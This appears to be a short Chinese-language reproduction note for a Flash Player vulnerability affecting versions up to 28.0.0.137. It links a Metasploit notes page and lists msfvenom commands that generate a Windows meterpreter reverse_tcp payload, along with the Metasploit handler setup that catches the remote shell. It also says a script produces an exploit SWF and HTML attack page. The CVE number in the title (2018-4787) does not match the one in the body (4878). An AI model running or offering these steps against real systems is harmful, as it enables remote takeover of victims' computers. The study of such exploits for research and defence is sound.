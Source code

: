 ﻿CVE-2018-4787 复现记录
Adobe Flash
影响版本:
Adobe Flash 28.0.0.137及其之前的版本

metasploit Framework个人笔记
https://zhuanlan.zhihu.com/p/40091321

#Msfvenom生成shellcode
msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=4444 -a x86 --platform win -f py > shellcode.txt 
#Metasploit Listen
use exploit/multi/handler
set LHOST IP
set LPORT 4444
set payload windows/meterpreter/reverse_tcp 
#cve-2018-4878.py为exploit生成脚本，shellcode用metasploit生成，默认的为Windows弹计算器的payload。
#exploit.swf和index.html为cve-2018-4878.py生成的利用页面